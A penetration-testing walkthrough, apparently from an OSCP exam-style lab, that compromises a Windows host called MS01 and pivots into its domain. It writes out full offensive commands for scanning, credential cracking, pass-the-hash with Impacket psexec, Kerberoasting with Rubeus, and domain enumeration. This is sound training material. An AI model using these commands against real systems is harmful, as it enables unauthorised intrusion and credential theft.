# MS01

## Enumeration

Started with initial Nmap scans:

```bash
sudo nmap -sS -Pn -A -p- -o ms01-tcp_stealth-all.nmap ms01.oscp.exam
```

```bash
sudo nmap -sU -Pn -A --top-ports 250 -o ms01-udp-top250.nmap ms01.oscp.exam
```

* UDP scan may not be needed but is started in the background since it runs for a long time


```
Nmap scan report for ms01.oscp.exam (192.168.202.153)
Host is up (0.053s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/8%OT=22%CT=1%CU=33944%PV=Y%DS=4%DC=T%G=Y%TM=66DE0
OS:5A4%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=I%TS=U)OPS(O1=M551
OS:NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)W
OS:IN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=F
OS:FFF%O=M551NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N
OS:)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=CCB1%RUD=G)IE(R
OS:=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
|   date: 2024-09-08T20:14:15
|_  start_date: N/A
```


### Anonymous Services

I was unable to access RPC or SMB anonymously:

<figure><figcaption><p>Anonymous account access failures</p></figcaption></figure>

## Web Server (Port 8000)

The initial landing page is just an IIS start image. I decide to look around and see what else I can find with `feroxbuster`:


```bash
feroxbuster -L 20 -k -C 404 -C 400 -r -E -g -B -n -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-2.3-medium.txt -u http://ms01.oscp.exam:8000/ -o p8000_directory.feroxbuster
```


This turns up a `/partner` directory that is forbidden (403):

<figure><figcaption><p>403 directory partner</p></figcaption></figure>

I decide to enumerate inside that directory to see if anything inside is either another 403 directory or something accessible:


```bash
feroxbuster -L 20 -k -C 404 -C 400 -r -E -g -B -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -x @common_web_extensions.txt -u http://ms01.oscp.exam:8000/partner -o p8000_partner_big.feroxbuster
```


This turns up 2 items which are downloadable:

<figure><figcaption><p>feroxbuster inside partner directory</p></figcaption></figure>

I grab both and start examining them.

#### ChangeLog

This file just contains a single line of text:

<figure><figcaption><p>Contents of ChangeLog</p></figcaption></figure>

This makes me think what I need to do is find a subdomain/VHOST that will load up a different web page (like on [`TOKYO07`](../../lab-3-skylark/external/tokyo07.md#edit-hosts) for Skylark). I found this post describing enumeration techniques. I settled on `ffuf`:


```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://192.168.202.153:8000 -H "HOST: FUZZ.oscp.exam" -fs 696
```


* `-fs` filters responses by size and 696 is the size of the IIS start page returned
  * Running without this filter returns countless results because IIS serves up the default for all requests

Unfortunately this turns up nothing. I try with a bunch of different fuzzing hosts: `FUZZ.oscp`, `FUZZ.exam`, `FUZZ.ms01.oscp.exam`, etc. None of these worked.

Eventually I decided to go back to the drawing board.

#### DB

The second file was called DB and returned what appears to be a sqlite database. I do not actually need to do anything with it though since as I am trying to figure it out I google one of the weird strings and it turns out to be an MD5 hash:

<figure><figcaption><p>Contents of DB file</p></figcaption></figure>

I test the credentials `support:Freedom1` as local and domain credentials via CME and it turns out the user has access to `MS01` but is _not a domain user_:

<figure><figcaption><p>Validating credentials</p></figcaption></figure>

The user also has access via WinRM so I now have interactive access:

<figure><figcaption><p>WinRM CME checks</p></figcaption></figure>

<figure><figcaption><p>Interactive access as support</p></figcaption></figure>

User access achieved as `support`.

In hindsight I _should have checked SSH access_ here but I did not. The reasoning will become clear later. The proper order of credential checks would have been this:


Unfortunately that is not what I did at the time.

## Privilege Escalation

I run PEAS and Seatbelt but neither turn up anything particularly helpful.

### admintool

As I am looking around my new surroundings I find something interesting in the support user's home directory:

<figure><figcaption><p>Interesting exe in home directory</p></figcaption></figure>

This does not seem to be a standard executable. There is an Oracle product by that name but I do not think this is that. I decide to try running it. It errors but mentions a help menu so I try again with the `-h` flag. The help menu is not incredibly helpful but it says to use the command structure:

```
admintool.exe <CMD>
```

I decide to try running some basic commands:

```
C:\Users\support\AdminTool.exe whoami
```

This errors:

<figure><figcaption><p>Errors when attempting to run tool</p></figcaption></figure>

One thing that is also weird is that it there is a line where it asks for a password input but the program does not wait for an input it just errors. This is odd but I press on. All other commands error.

#### Revisiting

Honestly I got stuck here for awhile. I assumed this was the wrong path and started looking at other things. Only later did I come back here. During all my other work I had tested my support account creds on SSH and they worked:

```bash
ssh support@ms01.oscp.exam
```

I transferred over to that while enumerating. When I came back to this I noticed the error output for the command looked different than it had on `evil-winrm`. First off, it waited for me to enter a password. I guessed "`Administrator`" which was of course wrong but this time the error output gave me a clue:

<figure><figcaption><p>Much more helpful error message</p></figcaption></figure>

That just seems like an MD5 hash so I attempt to decrypt it (I start online because it is instant if it works - had it failed I would have used `hashcat`):

<figure><figcaption><p>Cracked credentials</p></figcaption></figure>

This seems promising. I decide to try the credentials `Administrator:December31` with the tool:

<figure><figcaption><p>Successful command execution</p></figcaption></figure>

I decide to take it a step farther and check if that is the Administrator's password:

```bash
ssh administrator@ms01.oscp.exam
```

<figure><figcaption><p>SSH as Administrator</p></figcaption></figure>

`Administrator` access achieved.

## Post-Exploit

### Mimikatz

My first step is to run Mimikatz. I am hoping to get a domain user's credentials but I am not that lucky. I do find the local Administrator's hash but not much else:

<figure><figcaption><p>Administrator's hash in Mimikatz</p></figcaption></figure>

### Domain Enumeration

#### Gaining Access

Ideally I would like to begin domain enumeration but I have a problem. I cannot look up users on the domain. My first attempts were with `net user` and the `/domain` flag:

<figure><figcaption><p>Cannot access domain controller</p></figcaption></figure>

The machine itself is domain-connected. That leads me to believe the `SYSTEM` account will be able to run domain enumeration commands. I could use an exploit probably but I recall the Impacket's PsExec elevates itself to `SYSTEM` if you sign in as a local Administrator's. I decide to use that but I only have the NTLM hash so I pad it with 32 leading zeroes and sign in with:


```bash
impacket-psexec -hashes 00000000000000000000000000000000:3c4495bbd678fac8c9d218be4f2bbc7b Administrator@ms01.oscp.exam
```


This works and I can now run domain enumeration commands:

<figure><figcaption><p>Running domain enumeration commands from PsExec</p></figcaption></figure>

#### Password Policy

I check the password policy of the domain with `net accounts /domain`. This reveals the domain has no lockout threshold:

<figure><figcaption><p>No lockout threshold in domain</p></figcaption></figure>

This is good to know in case I need to spray later.

#### SharpHound

I then use the SMB trick to run SharpHound from the SMB server I [set up earlier](../#smb):


```
\\192.168.45.157\tools\x64\SharpHound.exe --CollectionMethods All --OutputDirectory \\192.168.45.157\tools\data --OutputPrefix "ms01"
```


### Kerberoast

I start examining the output and find 2 Kerberoastable users:

<figure><figcaption><p>Kerberoastable users</p></figcaption></figure>

I use Rubeus to Kerberoast:


```
\\192.168.45.157\tools\x64\Rubeus.exe kerberoast /tgtdeleg /outfile:\\192.168.45.157\tools\data\hashes.kerberoast
```


<figure><figcaption><p>Kerberoasting with Rubeus</p></figcaption></figure>

This returns hashes which I then attempt to crack with `hashcat`:


```bash
hashcat -m 13100 -r /usr/share/hashcat/rules/best64.rule -o cracked.kerberoast hashes.kerberoast /usr/share/wordlists/rockyou.txt
```


One of them cracks to `web_svc:Diamond1`. I validate the credentials and add it to `creds.txt`:

<figure><figcaption></figcaption></figure>


```
---------------------------------------------------  DOMAIN CREDENTIALS  ----------------------------------------------------

OSCP.EXAM\web_svc   Diamond1    Kerberoasted and cracked


----------------------------------------------------  OTHER CREDENTIALS  ----------------------------------------------------

MS01\support    Freedom1        Provides SSH/WinRM access to MS01 as local user "support"
```


### Proxy Setup

Once the machine is compromised I set up a `ligolo-ng` agent on `MS01` and point it at the internal network.

#### Internal Network Enumeration

Once my proxy setup is complete I run a scan of the machines inside the network:


```bash
sudo nmap -sT -Pn -A -p- -o internal_domain-tcp_connect-all.nmap ms02.oscp.exam dc01.oscp.exam
```


* For TCP scans across a proxy full connect scan mode (`-sT`) must be used

The output from this command will be included in the writeups for each machine.

#### Port Forwarding

Since I will probably need it later I set up a port forward by running the following command in the `ligolo-ng` `proxy` interface (on my machine):

```
listener_add --addr 10.10.167.153:8443 --to 192.168.45.157:443
```

This will forward any traffic received on `MS01`'s internal interface port 8443 (`10.10.xxx.153:8443`) to my HTTPS server at port 443 on my machine.

### Re-Enumeration

Now that I have elevated permissions I start re-examining this machine. It is always a good idea to re-run PEAS at this point. It is not going to help me elevate my privileges further but it is good at quickly combing a machine for interesting files and tidbits.


```
START /b \\192.168.45.157\tools\x64\peas.exe -a quiet log=\\192.168.45.157\tools\data\ms01_system.peas
```


### PowerShell History

I find the PSReadline history file and read it. Inside I see an attempt to use the `admintool.exe` [from earlier](ms01.md#admintool) but with a different password:

<figure><figcaption><p>Administrator PowerShell history</p></figcaption></figure>

I grab the password and start trying to figure out what it is. Hoping it is a domain credential I gather a list of all domain users with `ldeep`:


```bash
ldeep ldap -d 'oscp.exam' -u 'web_svc' -p 'Diamond1' -s ldap://dc01.oscp.exam users
```


I then validate the usernames with `kerbrute`:


```bash
kerbrute userenum --dc dc01.oscp.exam -d 'oscp.exam' users.txt
```


